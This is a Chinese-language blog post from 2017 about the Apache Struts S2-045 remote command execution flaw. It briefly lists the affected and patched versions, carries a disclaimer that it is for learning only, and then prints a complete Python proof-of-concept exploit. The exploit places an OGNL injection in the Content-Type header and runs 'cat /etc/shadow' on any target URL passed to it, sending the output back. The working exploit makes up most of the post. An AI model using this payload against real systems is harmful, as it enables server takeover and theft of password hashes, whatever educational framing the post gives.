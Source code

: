 ```yaml
---
layout: post
title: s2-045任意命令执行exp
date: 2017-03-07 16:19:32
comments: true
tags:
	- 安全攻防
---
```


### 前言
><font color="#ff0000">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**</font>

### 正文
> * 今天早上一醒就被s2漏洞给刷屏了,心想一下这不是几年前的漏洞吗，怎么又火起来了
> * 详细了解之后才知道今天凌晨的时候又爆了一个任意命令执行漏洞，由安恒WEBIN实验室发现.


> * 涉及Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10多个版本。


>* 可将版本更新至Struts 2.3.32 或者 Struts 2.5.10.1 或 使用第三方的防护设备进行防护。

>目前官方已确认(漏洞编号S2-045)

#### poc
<!--more-->
```python
#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
 
def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/shadow').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()
 
poc()
```

![](/images/pasted-43.jpg)


![](/images/pasted-44.jpg)



#### 末尾
希望这次各个厂商能及时防范，不要想前几年一样造成大量的数据泄漏(某东12G)